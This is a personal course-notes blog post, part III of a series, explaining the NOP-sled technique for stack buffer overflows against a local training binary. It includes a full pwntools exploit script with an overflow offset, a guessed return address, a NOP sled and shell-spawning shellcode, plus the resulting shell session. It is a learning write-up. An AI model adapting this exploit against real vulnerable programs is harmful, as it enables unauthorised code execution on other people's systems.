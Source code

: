 This is part III of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow).

# B&E III: NOP Sleds

If you were following along in the last two parts, you would have noticed that the addresses I was referencing are different than the ones you may be seeing.

The difference in addresses on different systems is due mainly to _the environment variables stored by the stack._ If you were to add an environment variable in your system and then re-compile the binary, the addresses would be different.

Even the `$PWD` variable for the current working directory will effect the addresses if you were to run the binary from a different directory.

Because of this _our exploit code is not likely to work on a different target system_ because we don't know the exact address our shellcode will be at (even if we place it at the beginning of our injection like last time).

However, _the offsets will be the same_. That's because, as long as the code for the vulnerable program is the same, it compiles into the same binary. So, the length in memory between the `name` variable and the saved RIP on the stack is still 280 bytes.

So, since we can't control for the exact address where our malicious code will end up, we're going to move our shellcode to the end of the injection and 'slide' into it from the saved RIP using NOPs.

## NOP Sleds

In our basic overflow ([part 2](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow) of this series), we overwrote the saved RIP with the exact address of our shellcode (which was placed at the beginning of our injection payload).
<br>
<br>
![](/md-images/Pasted%20image%2020231121173335.png)
<br>
<br>
This time, we're still overwriting the saved RIP, but the address we place in there will be a guess. We're going to put an address which, according to our _best guess_ is an address within our NOP sled, which is the next part of the injection payload.

### What is a NOP?

'NOP' stands for 'non operational' or 'no operation' and refers to computer instructions in machine language which do nothing. The point of a NOP in assembly is to _not change the state of the program_ (although they often take a specific number of clock cycles to execute).

In our architecture, we'll be using the literal `nop operation` which is `b'\x90'`.

### Why NOP?

Because we can't reliably pick an address for our shellcode on the stack we're going to use NOPs in our payload as _executable filler_. Between the end of our 280 `chars` and our exploit code, we'll add a long sequence of NOPs. Then, we'll guess an address that's likely to be in our NOP sled (`0x7fffffffe000`), and overwrite the saved RIP with that address.

This will essentially widen the window of addresses which will capture the CPU for execution. If the address we overwrite the saved RIP with is within the NOP sled, the CPU will enter the sled at that address, begin executing the NOPs and _slide into our shellcode_ placed at the end of the NOP sequence. That's why this technique is called a _NOP sled_.

Using this technique, our payload on the stack will look something like this:
<br>
<br>
As a string:
![](/md-images/Pasted%20image%2020231214121607.png)
<br>
On the stack:
![](/md-images/Pasted%20image%2020231124142229.png)
<br>
<br>
Compared to our basic overflow (the first image) the shellcode is at the _END_ of the NOP sled instead of at the beginning of our payload (at the `name` variable). If we point the CPU to any of the addresses between the saved RIP and the shellcode, our shellcode is guaranteed to get executed.

### NOP Sled Length

We want our NOP sled to be pretty long so we can _increase the likelihood_ that our guessed address will be within the addresses the sled spans. This greatly increases our chance of capturing the CPU's execution flow, even in systems we haven't tested on.

## Re-Writing our Exploit

Our exploit code will now look like this:

```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes
overflow_offset_rip = 0x118

# we point saved rip to the stack hoping to hit our NOPSLED
new_rip = 0x7fffffffe000

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

NOP_SLED = b"\x90" * 2048

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += NOP_SLED
payload += shellcode

# connect to the vulnerable program p = process("./vuln_1")
p = process("./vuln_1")

# send the payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```

Compared to our basic overflow code:

1. The `new_rip` is set to the address we're guessing is within the NOP sled.
2. The character filler portion of the shellcode isn't subtracted from to make room for the `shelcode` (since it will be at the end this time).
3. The `NOP_SLED` variable is new and consists of 2048 `nop` operations (`b'\x90'`).
4. The `shellcode` is added to the end of the payload and not the beginning.

## NOP Slide into the Main Frame!

```bash
┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py
[+] Starting local process './vuln_1': pid 1284173
[*] Switching to interactive mode
$ whoami
hakcypuppy
$
```

_Noice!_

In the next part of this series, we'll make our exploit _even more reliable_ by using ROP Gadgets!

> Resources
>
> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)
> -   [Wikipedia: NOP](<https://en.wikipedia.org/wiki/NOP_(code)>)
> -   [Wikipedia: NOP Slide](https://en.wikipedia.org/wiki/NOP_slide)

> My previous notes:
>
> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)
